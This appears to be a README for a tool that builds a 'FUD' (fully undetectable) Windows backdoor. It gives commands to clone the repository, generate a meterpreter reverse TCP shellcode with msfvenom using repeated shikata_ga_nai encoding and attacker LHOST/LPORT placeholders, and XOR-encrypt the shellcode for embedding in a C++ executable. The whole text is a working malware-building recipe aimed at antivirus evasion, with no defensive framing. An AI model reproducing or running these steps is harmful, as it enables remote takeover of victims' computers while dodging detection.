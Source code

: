 # 🔒 Generate **FUD** backdoor with a Python **Crypter** 🔒
Follow the steps bellow to generate a crypted shellcode that can be used on a C++ executable.

##Clone the repository
```
sudo git clone https://github.com/3ct0s/fud-backdoor.git
cd fud-backdoor
```

## Generate The ShellCode

```
msfvenom -p windows/x64/meterpreter_reverse_tcp -e x86/shikata_ga_nai -i 10 LHOST=(IP) LPORT=(PORT) -f raw -o raw.txt
```

## Encode the ShellCode With the XOR Encryption

```
python xor_encryptor.py raw.txt > xor_shellcode.txt
```
